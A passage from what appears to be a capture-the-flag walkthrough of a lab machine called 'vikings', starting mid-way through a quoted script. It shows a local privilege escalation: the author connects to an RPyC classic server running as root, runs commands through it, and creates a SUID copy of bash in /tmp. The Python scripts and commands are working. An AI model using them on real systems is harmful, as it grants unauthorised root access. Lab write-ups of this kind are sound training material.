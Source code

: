 ```shellscript
                print("User interrupt!")
        finally:
            conn.close()

if __name__ == "__main__":
    ClassicServer.run()
```

The `rpyc_classic.py` script runs an RPyC (Remote Python Call) server. The `.profile` entry means this server is started as root. If I can connect to this RPyC server, I can execute arbitrary Python code as root.

I checked the active ports to see if the RPyC server was listening:

```shellscript
ragnar@vikings:~$ netstat -tulnp | grep python
```

This command would show if a Python process was listening on a port. From the `viminfo` file of `floki`, I saw a line: `python3 /usr/local/bin/rpyc_classic.py`. This indicated that the RPyC server was likely running on its default port, which is `18812`.

I created a simple Python script to connect to the RPyC server and execute a command:
```python
import rpyc
conn = rpyc.classic.connect("localhost", 18812)
output = conn.modules.subprocess.check_output(["id"])
print(output.decode())
```

I ran this script:

```shellscript
ragnar@vikings:~$ python3 script.py
```

The output was `uid=0(root) gid=0(root) groups=0(root)`, confirming that I could execute commands as root through the RPyC server.

Now, I used this capability to create a SUID shell. I modified `script.py` to copy `/bin/bash` to `/tmp/rootsh` and set the SUID bit:

```python
import rpyc
conn= rpyc.classic.connect("localhost",18812)
conn.modules.os.system("cp /bin/bash /tmp/rootsh && chmod +s /tmp/rootsh")

```

I ran the script:

```shellscript
ragnar@vikings:~$ python3 script.py
```

Then, I verified the SUID bit on `/tmp/rootsh`:

```shellscript
ragnar@vikings:~$ ls -la /tmp
# ... (truncated for brevity) ...
-rwsr-sr-x  1 root   root   1113504 Jul 14 14:17 rootsh
# ... (truncated for brevity) ...
```
